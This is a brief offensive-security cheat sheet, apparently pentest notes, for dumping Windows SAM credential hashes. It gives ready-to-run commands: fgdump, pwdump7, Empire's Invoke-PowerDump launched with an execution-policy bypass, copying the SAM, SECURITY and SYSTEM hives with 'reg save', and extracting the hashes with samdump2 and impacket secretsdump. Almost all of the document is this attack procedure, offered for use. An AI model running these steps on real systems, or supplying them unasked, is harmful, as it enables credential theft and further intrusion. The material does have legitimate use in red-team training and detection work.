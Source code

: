 # dump SAM SYSTEM

## SAM hash Format

```bash
uid : rid : LM_Hash : NTLM_Hash
```

## [foofus.net/fgdump](http://foofus.net/goons/fizzgig/fgdump/fgdump-usage.htm) | [tarasco.org/pwdump7](https://www.tarasco.org/security/pwdump\_7/)

```bash
> fgdump.exe

> pwdump7.exe
```

## [EmpireProject/Empire/dump.ps1](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-PowerDump.ps1)

```bash
> powershell.exe -exec bypass -Command "& {Import-Module .\Invoke-PowerDump.ps1; Invoke-PowerDump}"
```

## manually

```bash
# actual location
C:\Windows\System32\config\SAM
C:\Windows\System32\config\SECURITY
C:\Windows\System32\config\SYSTEM
# other locations
C:\Windows\System32\config\RegBack
C:\Windows\Repair

reg save hklm\sam c:\Users\Public\ksam
reg save hklm\system c:\Users\Public\ksystem
reg save hklm\security c:\Users\Public\ksecurity

# on kali
samdump2 ksystem ksam
impacket-secrectsdump -sam ksam -security ksecurity -system ksystem LOCAL
```
